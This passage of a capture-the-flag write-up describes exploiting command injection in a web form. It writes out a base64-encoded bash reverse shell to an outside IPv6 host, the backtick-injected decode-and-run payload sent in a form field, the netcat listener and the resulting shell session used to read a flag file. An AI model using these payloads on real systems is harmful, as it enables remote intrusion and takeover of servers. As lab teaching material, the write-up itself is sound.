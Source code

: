 It looks like all the fields were vulnerable. I crafted a reverse shell in base64 to avoid having special characters.


```bash
root@ctn-shell:~# echo '/bin/bash -i >& /dev/tcp/9000:6666:6666:6666:216:3eff:feb1:8d80/443 0>&1  ' | base64 -w0 ; echo
L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzkwMDA6NjY2Njo2NjY2OjY2NjY6MjE2OjNlZmY6ZmViMTo4ZDgwLzQ0MyAwPiYxICAK
```

Then I sent it in one of the form fields.

```bash
`echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzkwMDA6NjY2Njo2NjY2OjY2NjY6MjE2OjNlZmY6ZmViMTo4ZDgwLzQ0MyAwPiYxICAK|base64 -d |bash`
```

It gave me a shell, and another flag.

```bash
root@ctn-shell:~/eric# nc -6 -klvnp 443
Listening on :: 443

Connection received on 9000:fddb:42ac:b48c:216:3eff:fe66:2533 54060
bash: cannot set terminal process group (176): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ctn-dlebrun-somatic:/var/www/html$ 

www-data@ctn-dlebrun-somatic:/var/www/html$ ls
ls
admin_dashboard.php
database
flag.txt
getMeetingInfo.php
index.html
index.html.1
index.html.2
index.html.3
index.html.4
index.html.5
index.php
joinsomatic.php
login.php
resetpassword.php
sslcertificate.php
static

www-data@ctn-dlebrun-somatic:/var/www/html$ cat flag.txt
cat flag.txt
FLAG-a080cfc29c3a852a508e1e68b1bc5a24
```

I submitted the flag for another 2 points.

```bash
$ askgod submit FLAG-a080cfc29c3a852a508e1e68b1bc5a24                                     
Congratulations, you score your team 2 points!
Message: You are close, just one flag left. (3/4)
```
